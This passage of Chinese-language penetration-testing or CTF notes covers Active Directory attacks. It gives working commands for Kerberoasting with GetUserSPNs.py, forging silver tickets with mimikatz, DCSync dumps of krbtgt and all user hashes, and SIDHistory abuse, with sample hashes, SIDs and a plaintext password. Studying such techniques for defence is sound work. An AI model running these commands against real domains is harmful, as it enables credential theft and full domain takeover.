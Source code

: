 ```bash
# 这个脚本会找出和普通用户账户关联的SPN，输出格式与JtR和hashcat兼容
python GetUserSPNs.py -request -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```

### 制作白银票据

制作白银票据，就是制作TGS（ST）。如果不做PAC认证，就可以访问特定的服务。

#### 制作CIFS服务票据

得到了 OWA2010SP3$ 的哈希值，通过`mimikatz`生成`CIFS`服务的银票，从而可以实现完全的远程文件访问等。

```bash
mimikatz.exe "kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt" exit

# 参数说明：
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

使用`dir \\OWA2010SP3.0day.org\c$`访问DC的共享文件夹。

#### 制作LDAP服务票据

```bash
mimikatz.exe "kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:ldap /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt" exit
```

再通过DCSync导出任意用户的哈希

例如导出 `krbtgt` 的哈希来制作黄金票据

```bash
mimikatz.exe "lsadump::dcsync /domain:hack-my.com /user:krbtgt"
```

### SIDHistory

户滥用了SID历史功能(SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的objectSid，在之前域中的SID会添加到该对象的sIDHistory属性中，此时该对象将保留在原来域的SID对应的访问权限)

![13-2](F:\LocalCTF\pictures\13-2.png)

我们就可以通过这个滥用直接攻击DC了，因为我们保留域管理员的访问权限了，所以直接dump哈希

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

### 自动登录凭据收集
